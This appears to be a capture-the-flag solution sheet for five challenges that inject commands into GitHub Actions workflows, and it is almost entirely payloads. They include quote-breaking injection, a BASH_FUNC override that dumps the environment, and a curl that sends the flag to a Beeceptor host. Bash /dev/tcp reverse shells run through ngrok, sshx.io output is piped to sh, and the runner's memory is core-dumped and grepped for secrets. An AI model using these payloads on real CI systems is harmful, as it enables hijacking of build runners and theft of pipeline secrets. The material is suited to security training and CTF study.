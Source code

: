 # Chall 1
 
``` bash
Hello, there!'; echo "Here is your flag: ${FLAG}" | base64 ;echo 'General Kenobi
```
 
# Chall 2

``` bash
Not a release :(
BASH_FUNC_echo%%=() { builtin echo "coucou $@" | printenv | base64 ;}
```

# Chall 3
 
[Bash variables doc](https://www.gnu.org/software/bash/manual/html_node/Bash-Variables.html)
 
[Beeceptor](https://beeceptor.com/)
 
[Beeceptor for the demo](https://app.beeceptor.com/console/tdf123456)
 
``` bash
Not a release :(
BASH_ENV=$(curl https://tdf123456.free.beeceptor.com?flag=$(echo "$FLAG" | base64))
```
 
# Chall 4
 
## Setup (client side)
 
### Listen with NC

``` bash
nc -lv 4444
```
 
### Setup ngrok
 
``` bash
ngrok tcp 4444
```
 
### Get ngrok IP to build payload
 
``` bash
dig <NGROK_DNS>
```
 
## Payload
 
``` bash
$(bash -i >& /dev/tcp/<NGROK_IP>/<NGROK_PORT> 0>&1)
```
 
## Fancy shell for lazy DevOps :)
 
``` bash
curl -sSf https://sshx.io/get | sh -s run
```
 
## Let's investigate!
 
The directory `/home/runner/work/_temp` look interesting...
 
# Chall 5
 
### Listen with NC

``` bash
nc -lv 4444
```
 
### Setup ngrok
 
``` bash
ngrok tcp 4444
```
 
### Get ngrok IP to build payload
 
``` bash
dig <NGROK_DNS>
```
 
## Payload
 
``` bash
; bash -i >& /dev/tcp/<NGROK_IP>/<NGROK_PORT> 0>&1
```
 
## Fancy shell for lazy DevOps :)
 
``` bash
curl -sSf https://sshx.io/get | sh -s run
```
 
## Let's dump!
 
### Let's check those secrets
 
``` bash
sudo apt-get install -y gdb; sudo gcore -o k.dump "$(ps ax | grep 'Runner.Listener' | head -n 1 | awk '{print $1}')"; grep -Eao '"[^"]+":\{"value":"[^"]*","isSecret":true\}' k.dump*
```

 